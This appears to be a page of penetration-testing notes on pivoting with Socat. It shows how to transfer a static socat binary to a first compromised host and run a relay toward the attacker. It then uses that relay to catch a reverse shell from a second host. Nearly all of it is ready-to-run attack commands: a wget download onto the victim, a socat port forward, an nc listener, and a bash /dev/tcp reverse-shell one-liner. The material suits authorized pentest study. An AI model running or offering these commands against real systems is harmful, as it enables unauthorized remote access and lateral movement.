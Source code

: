 <div align="left"><figure><img src="../../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure></div>

Bad situation in a PT, where we need to spawn a reverse shell. To solve this problem a tool called [`Socat`](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) comes in handy.

{% embed url="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat" %}

We are going to use Socat to help us reach Attacker machine from our Target/Victim machine and spawn a shell.&#x20;

<pre class="language-bash"><code class="lang-bash">#Kali
curl https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -o socat #download Socat
chmod +x socat #give execution permission (do it on both machines)
<strong>#transfer Socat on victim machine / target 1
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>#download on target 1 using wget or similar methods
</strong><strong>#Target 1
</strong><strong>wget 10.10.10.4/socat
</strong><strong>chmod +x socat
</strong></code></pre>

```bash
#Target 1
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.4:111 #tcp-l: listening port, send data to tcp:attacker:port
```

Now, we've a reverse connection, and if we listening on Kali machine using on port 111 and we spawn a [reverse shell](https://www.revshells.com/) on target 2 (using Target 2's IP of 2nd net interface in common between target 1 and 2), we obtain a target 2 session on Kali machine.

{% embed url="https://www.revshells.com/" %}

```bash
#Kali
nc -nlvp 111 #listening on port 111
#Target 2
sh -i >& /dev/tcp/20.20.20.7/1111 0>&1 #Bash -i reverse shell with IP target 1 and socat listening port 1111
```
